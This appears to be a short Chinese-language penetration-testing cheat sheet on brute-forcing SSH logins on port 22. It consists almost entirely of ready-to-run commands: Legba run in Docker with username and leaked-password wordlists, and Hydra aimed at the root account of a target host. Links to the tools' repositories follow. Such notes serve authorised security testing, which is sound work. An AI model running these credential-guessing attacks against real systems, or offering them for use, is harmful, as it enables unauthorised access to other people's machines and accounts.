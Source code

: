 # 22 SSH

## SSH 暴力破解

### 使用 Legba

```bash
HOST=; PORT=22; # TARGET HOST INFO
DICT_PATH=~/hack/dicts/hack-dict; # LOCAL DICT PATH
```

```bash
docker run \
  -v $DICT_PATH:/hack-dict \
  -v $(PWD):/out \
  --network host -it \
  evilsocket/legba:latest \
  ssh --target $HOST:$PORT \
  --username /hack-dict/username/top10.txt \
  --password /hack-dict/darkweb2017-top100.txt \
  -O /out/legba-ssh-outptu.txt
```

* [https://github.com/evilsocket/legba](https://github.com/evilsocket/legba)
* [https://github.com/evilsocket/legba/wiki/Installation-and-Building](https://github.com/evilsocket/legba/wiki/Installation-and-Building)
* [https://github.com/evilsocket/legba/wiki/Usage-and-Main-Options](https://github.com/evilsocket/legba/wiki/Usage-and-Main-Options)
* [https://github.com/evilsocket/legba/wiki/SSH-and-SFTP](https://github.com/evilsocket/legba/wiki/SSH-and-SFTP)

### 使用 Hydra

```bash
HOST=; PORT=22; # TARGET HOST INFO
DICT_PATH=~/hack/dicts/hack-dict; # LOCAL DICT PATH
```

```bash
hydra -l root -P $DICT_PATH/test-10.txt -t 4 ssh://$HOST:$PORT
```

* [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
